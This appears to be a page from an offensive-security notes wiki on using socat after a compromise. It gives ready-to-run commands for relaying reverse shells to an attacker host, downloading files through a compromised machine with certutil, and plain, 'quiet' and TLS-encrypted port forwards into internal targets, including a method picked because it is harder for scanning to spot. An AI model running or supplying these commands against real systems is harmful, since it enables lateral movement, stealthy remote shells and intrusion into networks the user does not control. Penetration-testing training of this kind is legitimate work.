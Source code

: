 # socat

Socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them. Because the streams can be constructed from a large set of different types of data sinks and sources (see address types), and because lots of address options may be applied to the streams, socat can be used for many different purposes.

### [Download](../../misc/tools.md#socat)

### Reverse Shell Relay (or Port Relay)

Socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

* Attacker machine: Listen with `nc`
* Comprimised machine: Socat command to relay the shell to the attacker's machine.
* Victim machine: Exploit to send a reverse shell to the compromised computer.

In the following example, we listen on port 8000. If a connection arrives on this port, socat relays to the attacker's machine on port 443:

```bash
./socat tcp-l:8000 tcp:<ATTACKING_IP>:443 &
```

In this way we can set up a relay to send reverse shells through a compromised system, back to our own attacking machine. This technique can also be chained quite easily; however, in many cases it may be easier to just upload a static copy of netcat to receive your reverse shell directly on the compromised server.

You can also use it to download a file:

```bash
./socat tcp-l:8000 tcp:<ATTACKING_IP>:80 & # Compromised machine 1
python3 -m http.server 80 # Attacker machine
certutil -urlcache -f -split http://<IP_1_COMPROMISED>/test #Compromised machine 2
```

### Port Forwarding

{% hint style="info" %}
All of the following commands must be executed on the compromised machine.
{% endhint %}

{% tabs %}
{% tab title="Easy" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.

```bash
./socat tcp-l:<OPEN_PORT>,fork,reuseaddr tcp:<TARGET_IP>:<TARGET_PORT> &
```

* The **fork** option is used to put every connection into a new process.
* The **reuseaddr** option means that the port stays open after a connection is made to it.

Combined, they allow us to use the same port forward for more than one connection.
{% endtab %}

{% tab title="Quiet" %}
The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not massive, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

```bash
# On the attacker machine:
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the **fork** and **reuseaddr** options set, to allow us to create more than one connection using this port forward.

```bash
# On the compromised machine:
./socat tcp:<ATTACKING_IP>:8001 tcp:<TARGET_IP>:<TARGET_PORT>,fork &
```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server.

We can also encrypt it in the following way:

```bash
# Generate certificates:
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
# On the attacker machine:
socat OPENSSL-LISTEN:8001,cert=shell.pem,verify=0 tcp-l:8000,fork,reuseaddr &
# On the compromised machine:
./socat OPENSSL:<ATTACKING_IP>:8001,verify=0 tcp:<TARGET_IP>:<TARGET_PORT>,fork &
```
{% endtab %}
{% endtabs %}

Finally, we've learnt how to create backgrounded socat port forwards and relays, but it's important to also know how to close these. The solution is simple:

```bash
jobs # To obtain the number of the background process.
kill %<NUMBER>
```

